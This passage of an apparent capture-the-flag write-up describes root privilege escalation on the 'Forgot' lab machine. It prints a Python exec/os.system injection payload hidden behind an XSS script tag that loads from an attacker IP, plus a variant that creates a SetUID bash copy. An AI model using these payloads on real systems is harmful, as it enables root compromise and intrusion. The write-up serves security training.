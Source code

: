```

oxdf=exec("""import os\nos.system("touch /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>

```

Hopefully the last bit will score highly as XSS, and then get passed to `preprocess_input_exprs_arg_string`. Then the `exec` call will import the `os` module and call `os.system`.

I’ll submit that via the webpage:

![image-20230224110524327](https://0xdfimages.gitlab.io/img/image-20230224110524327.png)

And run the script:

```

diego@forgot:~$ sudo /opt/security/ml_security.py
2023-02-24 15:55:13.863306: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-02-24 15:55:13.863365: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.

```

`/tmp/0xdf` exists and is owned by root:

```

diego@forgot:~$ ls -l /tmp/0xdf
-rw-r--r-- 1 root root 0 Feb 24 15:54 /tmp/0xdf

```

#### Shell

I’ll modify the payload so that it creates a SetUID copy of `bash`. I’ll initially try this, but it doesn’t work:

```

oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>

```

When I run the script, it errors out:

```

diego@forgot:~$ sudo /opt/security/ml_security.py
2023-02-24 16:08:19.522389: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-02-24 16:08:19.522544: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
Traceback (most recent call last):
  File "/opt/security/ml_security.py", line 125, in <module>
    ynew1 = loaded_model1.predict(Xnew)
  File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 437, in predict
    X = self._validate_X_predict(X, check_input)
  File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 402, in _validate_X_predict
    X = self._validate_data(X, dtype=DTYPE, accept_sparse="csr",
  File "/usr/local/lib/python3.8/dist-packages/sklearn/base.py", line 421, in _validate_data
    X = check_array(X, **check_params)
  File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 63, in inner_f
    return f(*args, **kwargs)
```